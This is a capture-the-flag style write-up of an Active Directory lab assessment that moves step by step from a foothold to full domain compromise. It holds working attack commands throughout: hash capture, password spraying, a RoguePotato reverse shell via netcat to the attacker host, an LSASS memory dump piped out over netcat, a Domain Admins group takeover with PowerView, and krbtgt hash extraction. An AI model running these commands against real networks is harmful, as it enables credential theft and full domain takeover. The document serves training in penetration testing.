## Active Directory Enumeration & Attacks – Skills Assessment Part II Write-up

### Initial Access and Environment

We start the assessment with access to the internal network `172.16.7.0/24`, obtained via credentials for SSH access to a Parrot OS machine. The first task is to capture a NetNTLMv2 hash and identify the associated username.

Using `ifconfig`, we identify the interface associated with the internal network – `ens224`.

We launch **Responder** to capture incoming NetNTLMv2 hashes:

```bash
sudo responder -I ens224 -v
```



After a few minutes, Responder successfully captures a NetNTLMv2 hash. We save the hash to a file for cracking and use **Hashcat** to retrieve the cleartext password.




### Accessing MS01 and Retrieving the Flag

Next, we need to access a file located on the C drive of the **MS01** host. Initially, the host's IP is unknown, but the DC's IP is in `/etc/hosts`.



So we scan the entire subnet:

```bash
for i in {1..254} ;do (ping -c 1 172.16.7.$i | grep "bytes from" &) ;done
```



The first machine is the Domain Controller (DC), and the last one is our Parrot OS.  

I used `crackmapexec` to enumerate shares on the second IP address and to get its hostname:



After enumeration, we identify that `172.16.7.50` is MS01. We confirmed access, so we can retrieve the required flag from MS01.




### Domain User Enumeration & Password Spraying

The next step is to identify weak domain credentials. We proceed with a **password spraying** attack using likely passwords from the module.

To prepare, we enumerate usernames using `rpcclient`:

```bash
rpcclient -U INLANEFREIGHT/<domain_user> 172.16.7.3 -c "enumdomusers" | awk -F'[][]' '{print $2}' > users.txt
```

With the list in place, we launch **Kerbrute**:

```bash
kerbrute passwordspray -d inlanefreight.local --dc 172.16.7.3 users.txt <probable_password>
```

This yields valid credentials for a new domain user.




### Finding MSSQL Credentials in Network Shares

We're now tasked with locating a config file containing a connection string to a MSSQL server. Using the new credentials, we scan SMB shares:

```bash
crackmapexec smb 172.16.7.3 -u <another_domain_user> -p <probable_password> --shares
```



We discover access to a non-standard share: `Department Shares`. Using the **Spider Plus** module and grab a created report file:

```bash
crackmapexec smb 172.16.7.3 -u <another_domain_user> -p <probable_password> -M spider_plus --share 'Department Shares'
```

We locate `web.config`:

```bash
cat 172.16.7.3.json | grep conf
##=> "IT/Private/Development/web.config"
```

We then connect and retrieve the file:

```bash
smbclient \\172.16.7.3\\'Department Shares' -U INLANEFREIGHT/<another_domain_user>

smb: \> get IT/Private/Development/web.config
```

The file contains credentials for a **MSSQL service account**.


### Privilege Escalation on SQL01 via RoguePotato

We can identify SQL01 as `172.16.7.60` as the last unknown host and connect:

```bash
impacket-mssqlclient <mssql_user>:<password>@172.16.7.60
```

We enable command execution:

```sql
enable_xp_cmdshell
```

Unfortunately, we have no access to the Administrator folder. Privilege check via `xp_cmdshell 'whoami /priv'` reveals `SeImpersonatePrivilege`, exploitable via **RoguePotato**.

We prepare the environment (according to RoguePotato demo on their github page):
1. Upload `RoguePotato.exe` and `nc64.exe` to `C:\Users\Public` on SQL01 machine
2. Start a listener and relay on attacker machine:

	```bash
	sudo socat tcp-listen:135,reuseaddr,fork tcp:172.16.7.60:9999
	
	nc -lvnp 3001
	```

3. Launch exploit from SQL01:

	```sql
	xp_cmdshell C:\Users\Public\RoguePotato.exe -r 172.16.7.240 -e "C:\Users\Public\nc64.exe 172.16.7.240 3001 -e cmd.exe" -l 9999
	```



We now have a SYSTEM shell on SQL01 and can read:

```cmd
type C:\Users\Administrator\Desktop\flag.txt
```


### Credential Dump via LSASS on SQL01

We need credentials to access MS01. From the SYSTEM shell, we dump LSASS:

```cmd
tasklist /fi "imagename eq lsass.exe"

rundll32.exe C:\Windows\System32\comsvcs.dll, MiniDump 664 C:\Windows\Temp\lsass.dmp full
```

Transfer the dump:

```cmd
nc64.exe 172.16.7.240 7777 < C:\Windows\Temp\lsass.dmp
```

Parse with **pypykatz**:
```bash
pypykatz lsa minidump lsass.dmp
```

We extract plaintext credentials for a **service account** with **admin rights on MS01**.




### Reading the Final Flag on MS01

We connect using **evil-winrm**:

```bash
evil-winrm -i 172.16.7.50 -u <svc_account_name> -p <password>
```

Now we can read:

```powershell
type C:\Users\Administrator\Desktop\flag.txt
```


### BloodHound Enumeration: Path to Domain Admin

To escalate to **Domain Admin**, we use **BloodHound**. First, we update DNS resolution:

```bash
##/etc/resolv.conf
domain INLANEFREIGHT.LOCAL
nameserver 172.16.7.3
```

Run BloodHound:

```bash
bloodhound-python -d INLANEFREIGHT.LOCAL -dc dc01 -c ALL -u <domain_user> -p <password> --zip
```

Analysis shows a user has **GenericAll** rights over the `Domain Admins` group.




### Capturing NTLMv2 via Inveigh on MS01

To get this user’s credentials, we run **Inveigh** on MS01 (requires admin rights, so use service account credentials to rdp):

```powershell
.\Inveigh.ps1
```

Eventually, we capture:
```
[+] [07:05:08] SMB(445) NTLMv2 captured for [INLANEFREIGHT\<domain_user>] from 172.16.7.3(DC01):64222:
```


### ACL Abuse: Domain Admin via PowerView

Now that we have credentials for a new one user, who has **GenericAll** over `Domain Admins` group, we first check their rights and add this user to the group:



```powershell
Import-Module .\PowerView.ps1

$SecPassword = ConvertTo-SecureString <password> -AsPlainText -Force

$Cred = New-Object System.Management.Automation.PSCredential('INLANEFREIGHT\<domain_user>', $SecPassword)

Add-DomainGroupMember -Identity 'Domain Admins' -Members <domain_user_to_domain_admin> -Credential $Cred -Verbose
```



We now have full **domain admin** access.



Retrieve the `flag.txt` file content.




### Extracting the `krbtgt` Hash

Final step: dump the **krbtgt** hash using `secretsdump`:

```bash
impacket-secretsdump 'INLANEFREIGHT/<domain_user>:<password>@172.16.7.3' -just-dc-user krbtgt
```

Done!


## Summary of Techniques Used

This assessment demonstrated the full domain privilege escalation path involving:

- NetNTLMv2 capture via Responder
- Cracking hashes with Hashcat
- Share enumeration and file retrieval using CrackMapExec and smbclient
- Password spraying with rpcclient and Kerbrute
- Privilege escalation through SeImpersonateToken abuse (RoguePotato) and LSASS dump (pypykatz)
- ACL abuse and domain admin privilege escalation using BloodHound and PowerView
- krbtgt hash extraction for persistence with secretsdump
